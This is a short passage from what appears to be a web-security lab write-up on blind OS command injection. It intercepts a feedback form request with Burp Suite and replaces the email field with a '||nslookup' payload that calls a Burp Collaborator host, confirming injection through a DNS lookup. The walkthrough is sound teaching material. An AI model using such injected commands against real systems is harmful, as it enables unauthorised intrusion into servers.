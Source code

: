 Intercept the request using `BurpSuite` and then `Modify` the request that submits feedback:

Open `Burp Collaborator Client` and copy the subdomain. I this case : `u0vaih5wnq6mdj00bv3gjzudx43urj.burpcollaborator.net`

Modify the email address changing it to:
```
b||nslookup+u0vaih5wnq6mdj00bv3gjzudx43urj.burpcollaborator.net||
```

Send it.

Now go to Burp Collaborator, and press 'Poll now' to confirm that a DNS lookup occurred.
